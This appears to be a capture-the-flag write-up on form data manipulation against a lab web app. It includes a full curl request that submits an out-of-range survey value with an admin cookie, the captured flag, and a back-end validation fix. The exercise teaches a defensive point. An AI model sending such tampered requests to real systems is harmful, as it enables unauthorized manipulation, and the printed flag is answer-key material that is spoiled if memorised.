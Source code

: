 # Form data manipulation 1

### Breach description

On the survey page, rewrite the survey count with a higher value than 10

```bash
curl 'http://192.168.64.6/?page=survey#' --compressed -X POST -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/117.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H 'Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3' -H 'Accept-Encoding: gzip, deflate' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: [http://192.168.64.6](http://192.168.64.6/)' -H 'Connection: keep-alive' -H 'Referer: http://192.168.64.6/?page=survey' -H 'Cookie: I_am_admin=68934a3e9455fa72420237eb05902327' -H 'Upgrade-Insecure-Requests: 1' --data-raw 'sujet=2&valeur=42'
```

**The flag is : 03a944b434d5baff05f46c4bede5792551a2595574bcafc9a6e25f67c382ccaa**

### Explanation of the breach

Form checks in front can be bypassed by directly sending a request with a dev tool or a software like postman / insomnia  

### Breach Fix

Check “valeur” in the back-end of the application and reject values not between 1 and 10 included.
